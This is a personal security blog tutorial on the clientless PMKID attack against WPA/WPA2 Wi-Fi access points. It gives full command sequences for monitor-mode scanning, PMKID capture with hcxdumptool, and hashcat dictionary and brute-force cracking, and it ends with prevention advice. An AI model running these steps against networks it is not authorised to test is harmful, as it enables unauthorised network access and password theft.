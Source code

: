 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **PMKID Attack on Wifi5 Access Point**

The [author of Hashcat (aka atom)](https://hashcat.net/forum/thread-7717.html) finds a way to obtain the WPA/WP2-PSK (Pre-shared key) password from Wifi5 Access Points (APs) (with roaming feature) without client involved.  That is 4-way handshake is no longer required - clientless.

However, this method does not work on [TP-Link Deco X20](https://www.tp-link.com/hk/home-networking/deco/deco-x20/?utm_medium=select-local) Mesh Wifi Router (Wifi6 with WPA3).  All known attack methods (except Fake Access Point attack) have been tried on the Deco X20 but failed including PMKID attack (tested on March 19, 2020) and [KR00K attack](https://hexway.io/research/r00kie-kr00kie/)  (CVE-2019-15126) (tested on March 21, 2020).  KR00K attack fails as Deco X20 is using Qualcomm IPQ8070 chipset instead of Broadcom's.  [KRACK](https://www.krackattacks.com/) was not tested as Support of TP-Link Deco Apps mentioned that Deco X20 is not vulnerable to this attack.  I think PMKID attack cannot be working on Wifi6 with WPA3 for other brand names too.

### Hardware

- [TP-Link Archer T4UHP AC1300 USB Adapter](https://www.tp-link.com/us/home-networking/usb-adapter/archer-t4uhp/)  
- All tested clients are in AC mode with WPA2  
- TP-Link Deco X20 is set to WPA2 only  

The attack will be carry out on Kali Linux 2020.1a and you are required to install the following packages.

```bash
sudo apt install hcxtools hcxdumptool net-tools realtek-rtl88xxau-dkms
```

In order to get the mac address of the target Access Point (AP), you need to run the following commands.  The following commands can detect channel from 1 to 200.

```bash
sudo airmon-ng check kill

sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor

sudo airodump-ng wlan0 --channel 1-200
```

The target AP should be Wifi5 with WPA/WPA2.  Once you get the mac address of the target AP, you need to remove all the ```:``` from the address.  For example, from ```00:0a:95:9d:68:16``` to ```000a959d6816``` and save to a file namely ```ap.txt```.

To make sure the target AP is in the range of the attack.  CTRL-c to quit.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --do_rcascan -c 36
```

When every thing is ready, we can scan the PMKID now.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --enable_status=3 -c 36
```

When you see ```[FOUND PMKID]``` or/and ```[FOUND PMKID CLIENT-LESS]```, you can quit it with CTRL-c.

To obtain the PMKID from ap.pcapng.

```bash
sudo hcxpcaptool -z hashtocrack ap.pcapng
```

To crack the ```hashtocrack``` with hashcat by using dictionary.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt
```

or by using brute forcing.

```bash
sudo hashcat -m 16800 hashtocrack -a 3 -w 3 '?l?l?l?l?l?l?l?l'
```

When it is cracked, you can show the result by using the following command.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt --show
```

* You can use ```--force``` to override the issue of hashcat when necessary.

### Prevention

- Purchase a modern wifi router (**or** when your router is vulnerable to KR00K attack), such as Wifi6 router with WPA3; or  
- WPA/WPA2 password should be secured enough (when your router is not vulnerable to KR00K attack)  

### Q&A

- Which wifi router is vulnerable to KR00K attack?  
All the Wifi5 (IEEE 802.11n) routers with Broadcom chipset are vulnerable to KR00K attack.  

- What do you mean secured password?  
It should be a very long (longer than 16 characters) and mixed cases (uppercase and lowercase) as well as including printable symbols.  Meanwhile, the password should not be predictable and it should not be found in any dictionary.  It should be better that the password is meaningless.

- What do you mean dictionary?  
It includes general dictionaries, such as Oxford Dictionary and hackers' dictionaries (password lists), such as ```rockyou.txt```. 

- Do you recommend to set **insecured** WPA3 password on Wifi6 router?  
Not recommended.  

Samiux  
OSCE  OSCP  OSWP  
March 19, 2020, Hong Kong, China  
Updated on March 21 & 22, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

